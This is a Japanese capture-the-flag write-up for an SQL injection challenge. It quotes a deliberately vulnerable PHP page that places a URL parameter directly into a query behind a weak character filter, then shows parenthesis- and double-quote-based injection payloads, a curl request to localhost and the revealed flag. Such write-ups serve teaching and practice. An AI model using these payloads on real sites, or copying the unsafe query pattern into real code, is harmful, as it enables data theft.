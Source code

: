 # SQL_challenge_1

```txt
今まで見たアニメのリストをデータベースに登録したよ。間違えて秘密の情報（FLAG）もデータベースに登録しちゃったけど、たぶん誰にも見られないし大丈夫だよね。

(Hint)

SQL injectionの問題です。

URLの「year=」の後に続く数字(年号)を適切な文字列に変更するとFLAGが表示されます。

一部使えない文字もあるのでソースコード(index.php)を参考に考えてみてください。

必要に応じてデータベースのスキーマ(1_schema.sql)も参考にしてください。

(注意)

sql-chall-1.zipは問題を解くために必須の情報ではなく、docker-composeを利用してローカルで問題環境を再現するためのものです。

興味のある方は利用してみてください。

writer : nkt
```

## Solution

問題にアクセスするとリストを選択して、該当の内容をリストで表示してくれるそうです。

試しに選択すると以下のようなパスでアクセスしてることがわかります。

```txt
http://localhost:8080/index.php?year=2011
```

配布フィアル(`index.php`)を見てみると、以下の部分に注目してみます。

```php
//urlの"year="の後に入力した文字列を$yearに入れる。
$year = $_GET["year"];

//一部の文字は利用出来ません。以下の文字を使わずにFLAGを手に入れてください。
if (preg_match('/\s/', $year))
    exit('危険を感知'); //スペース禁止
if (preg_match('/[\']/', $year))
    exit('危険を感知'); //シングルクォート禁止
if (preg_match('/[\/\\\\]/', $year))
    exit('危険を感知'); //スラッシュとバックスラッシュ禁止
if (preg_match('/[\|]/', $year))
    exit('危険を感知'); //バーティカルバー禁止                    

//クエリを作成する。
$query = "SELECT * FROM anime WHERE years =$year";

//debug用にhtmlのコメントにクエリを表示させる。
echo "<!-- debug : ", htmlspecialchars($query), " -->\n";

//結果を表示させる。
if ($result = $mysqli->query($query)) {
    while ($row = $result->fetch_assoc()) {
        echo '<tr><th>' . $row['name'] .  '</th><th>' . $row['years'] . '</th></tr>';
    }
    $result->close();
}
?>
```

以上のコードより、`' \/|` とスペースが制限されていることがわかります。

これらを使わずに SQL Injection ができれば良さそうです。

少し調べると `( ) ` や `"` で上手く実行できそうなことがわかります。

なので以下のように条件を真(true)にしてあげると、flagを得ることができます。

```txt
http://localhost:8080/index.php?year=(2011)or(1)=(1)
http://localhost:8080/index.php?year="2011"or"1"="1"
```

```shell
$ curl "http://localhost:8080/index.php?year=(2011)or(1)=(1)"
 ...
                    <!-- debug : SELECT * FROM anime WHERE years =(2011)or(1)=(1) -->
 ...
<tr><th>FLAG{53cur3_5ql_a283b4dffe}</th><th>123456789
 ...
</html>
```

## Flag

```txt
FLAG{53cur3_5ql_a283b4dffe}
```
